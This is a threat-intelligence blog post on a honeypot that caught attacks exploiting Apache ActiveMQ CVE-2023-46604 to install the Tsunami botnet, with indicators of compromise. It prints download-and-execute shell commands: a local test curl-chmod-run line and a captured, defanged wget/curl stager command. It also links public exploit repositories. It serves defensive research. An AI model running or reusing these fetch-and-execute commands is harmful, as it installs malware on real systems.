 ```yaml
---
layout: post
title: Tsunami Botnet was caught using ActiveMQ Honeypot
date: '2023-12-10 12:30:00 +0300'


categories: ['Caught by activemq-honeypot']
tags: ["botnet", "activemq-honeypot", "linux"]
---
```

## Executive Summary
In October 2023 Remote Code Execution vulnerability [CVE-2023-46604](https://www.cve.org/CVERecord?id=CVE-2023-46604) was published. This vulnerability in Apache ActiveMQ Legacy OpenWire Module got 10.0 Base Score by CNA. After that public exploits were created:
- [https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)
- [https://github.com/sule01u/CVE-2023-46604](https://github.com/sule01u/CVE-2023-46604)
- many other forks and similar exploits

These exploits contain real payloads which being used in the wild.

For example another similar attack [reported by FortiGuard Labs, CVE-2023-46604 exploitation and GoTitan Botnet spreading](https://www.fortinet.com/blog/threat-research/gotitan-botnet-exploitation-on-apache-activemq). 

After that fact I created fake vulnerable Apache ActiveMQ service which called [activemq-honeypot](https://github.com/infokek/activemq-honeypot).
This service emulates real vulnerable ActiveMQ service and can trigger attacker for exploitation, compromise attacker's attackchain, samples, C2 infrastructure and other helpful for Threat Intelligence things.


## Introduction to CVE-2023-46604
The Java OpenWire protocol marshaller can be vulnerable to Remote Code Execution. This vulnerability may allow a remote attacker with network access to either a Java-based OpenWire broker or client to run arbitrary shell commands. In fact this vulnerability used for malware Download & Execute attacks. This vulnerability commonly implemented in 2-3 stages. Let's look at this with an example of my testing infrastructure:

**1) Vulnerability exploitation**
![Attack Exploitation](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/attack_example.png)
_Attack exploitation_

Firstly attacker sends specific packet to Apache ActiveMQ service. This packet contains ExceptionResponse with Class `org.springframework.context.support.ClassPathXmlApplicationContext` and Message which contains XML payload url. 
![Exploitation Packet](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/exploitation_packet_example.png)
_ClassPathXmlApplicationContext message_

**2) XML payload downloading**

Secondly vulnerable service loads XML payload which commonly contains RCE command.
![XML Payload Loading](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/xml_loading_example.png)
_XML payload downloading_

For example here you can see command `curl -s -o test.elf http://172[.]17.0[.]1:8000/test.elf; chmod +x ./test.elf; ./test.elf` that was executed by vulnerable Apache ActiveMQ service.

**3) Malware executable downloading (Download & Execute)**

After succesful attack ActiveMQ service downloads malware executable and executes it. Commonly this is final exploitation step but there can be more different attack steps depending on the case.
![Executable Loading](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/exec_loading_example.png)
_Executable downloading_

This is example of attack scenario in my local testing infrastructure. Let's look at wild attack example.

## Wild Attack Example

[activemq-honeypot](https://github.com/infokek/activemq-honeypot) is rust-written, created by me, fakely vulnerable Apache ActiveMQ service that extracts IoCs and attack chain components from real vulnerability exploitations. You can check repository of this service here: [https://github.com/infokek/activemq-honeypot](https://github.com/infokek/activemq-honeypot)

Firstly I deployed [activemq-honeypot](https://github.com/infokek/activemq-honeypot) on my rented server and caught real attacker at 2023/12/19 19:21 UTC+3.
![Real Attack Logs](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/real_attack_logs.png)
_activemq-honeypot output logs_
Secondly honeypot got attack from [103[.]228.162[.]76](https://www.virustotal.com/gui/ip-address/103.228.162.76/detection) which identified as malicious on VirusTotal.

[activemq-honeypot](https://github.com/infokek/activemq-honeypot) also creates json output with IoCs after succesful exploitation.
![Real Attack Json](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/real_attack_json.png)
_activemq-honeypot output json_

Malicious XML payload was hosted on `hxxp://188[.]166.177[.]88/wp-content/themes/twentynineteen/poc2.xml`. 
![XML payload](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/xml_payload.png)
_Malicious XML payload_
This url also identified as malicious on VirusTotal service. Honeypot also automatically extracted RCE command from XML payload:

```bash -c (wget -O pk.sh  hxxp://161[.]35.219[.]184/.s/1sh || curl -o pk.sh hxxp://161[.]35.219[.]184/.s/3sh || fetch  -o pk.sh hxxp://161[.]35.219[.]184/.s/3sh); chmod +x pk.sh; ./pk.sh; rm -rf pk.sh```

This command downloads from [161[.]35.219[.]184](https://www.virustotal.com/gui/ip-address/161.35.219.184) malicious bash script [09aa65fc9e3b722f01a8ef65e4f5c352](https://www.virustotal.com/gui/file/09aa65fc9e3b722f01a8ef65e4f5c352/detection). 
![sh sample](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/sample_sh.png)
_Malicious bash script_

This malicious script contains `/dev/ttyN` UNIX system's mimicry. ELF32 executable that downloaded by this script [f895104d7e20dc6808c05164103d1357](https://www.virustotal.com/gui/file/f895104d7e20dc6808c05164103d1357/detection) attributed on VirusTotal as Tsunami Botnet.

![Botnet DiE](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/sample_botnet_die.png)
_Tsunami Botnet executable in Detect It Easy_

This sample packed with custom packer and detected by [Detect It Easy](https://github.com/horsicq/Detect-It-Easy) as UPX but can't be unpacked using standart UPX tool.

Moreover packed sample contains unknown specific string `hitteru koto dake`. This mark can be used in static detections in future.

![Botnet String](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/sample_botnet_string.png)
_Tsunami Botnet string in IDA_


I analysed this script on Triage Sandbox: [https://tria.ge/231209-wyxalsbdh4/](https://tria.ge/231209-wyxalsbdh4/) to check malicious behaviour.
This sample resolved C&C domain [p[.]deutschland-zahlung[.]eu](https://www.virustotal.com/gui/domain/p.deutschland-zahlung.eu) and contacted with C&C IP address [138[.]197.78[.]18](https://www.virustotal.com/gui/ip-address/138.197.78.18).
![Tsunami Botnet Traffic](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/tsunami_botnet_traffic2.png)
_Tsunami Botnet DNS resolve_

As we can see this botnet contains Telnet module which was used for C&C communications.

![Tsunami Botnet Traffic](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/tsunami_botnet_traffic.png)
_Tsunami Botnet C&C communication_

## Conclusion
CVE-2023-46604 seems to be popular vulnerability which used for Download & Execute different malware samples. In this case I caught Tsunami Botnet and researched it. In fact [activemq-honeypot](https://github.com/infokek/activemq-honeypot) can be used for catching more interesting attack chains and attack scenarious. Tsunami Botnet also detected by [Emerging Threats open ruleset](https://rules.emergingthreats.net/open/), Telnet C&C communations can be detected using signature `ET TROJAN ELF/Muhstik Botnet CnC Activity`, sid 2034743.


## Indicators Of Compromise
- `103[.]228.162[.]76` - attacker's host
- `188[.]166.177[.]88` - xml payload stager
- `161[.]35.219[.]184` - bash script stager
- `138[.]197.78[.]18` - botnet telnet module C&C
- `p[.]deutschland-zahlung[.]eu` - botnet telnet module C&C
- `d3fd8d78dbdde8260ee3e0a868f9d5af5b6fd496b7b085ef54633a7287b904bf` - malicious bash script C&C
- `86947b00a3d61b82b6f752876404953ff3c39952f2b261988baf63fbbbd6d6ae` - Tsunami botnet x32 executable